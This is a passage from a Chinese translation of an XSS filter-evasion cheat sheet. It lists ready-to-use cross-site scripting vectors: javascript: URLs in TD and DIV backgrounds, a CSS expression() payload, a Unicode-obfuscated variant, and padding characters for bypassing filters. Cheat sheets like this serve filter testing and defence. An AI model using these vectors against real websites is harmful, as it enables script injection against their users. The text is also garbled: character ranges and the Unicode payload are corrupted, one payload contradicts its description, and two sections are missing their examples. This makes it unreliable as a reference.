 


**2.66.1. TD**

和上面一样，TD也可以通过BACKGROUND来包含JavaScriptXSS攻击向量:


<TABLE><TD BACKGROUND="javascript:alert('XSS')">




### 2.67.    DIV

**2.67.1. DIV背景图像**


<DIV STYLE="background-image: url(javascript:alert('XSS'))">




**2.67.2. 含有Unicode XSS利用代码的DIV背景图像**

这进行了一些修改来混淆URL参数。原始的漏洞是由RenaudLifchitz在Hotmail发现的:


<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">




**2.67.3. 含有额外字符的DIV背景图像**

Rnaske进行了一个快速的XSS模糊测试来发现IE和安全模式下的Netscape 8.1中任何可以在左括号和JavaScript指令间加入的额外字符。这都是十进制的但是你也可以使用十六进制来填充（以下字符可用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）:


<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">




**2.67.4. DIV表达式**

一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行：


<DIV STYLE="width: expression(alert('XSS'));">




### 2.68.    html 条件选择注释块

只能在IE5.0及更高版本和IE渲染引擎模式下的Netscape 8.1生效。一些网站认为在注释中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用：








### 2.69.    BASE标签

在IE和安全模式下的Netscape 8.1有效。你需要使用//来注释下个字符，这样你就不会造成JavaScript错误并且你的XSS标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如"/images/image.jpg"你可以从攻击向量中移除一个斜杠（只有在两个斜杠时注释才会生效）：
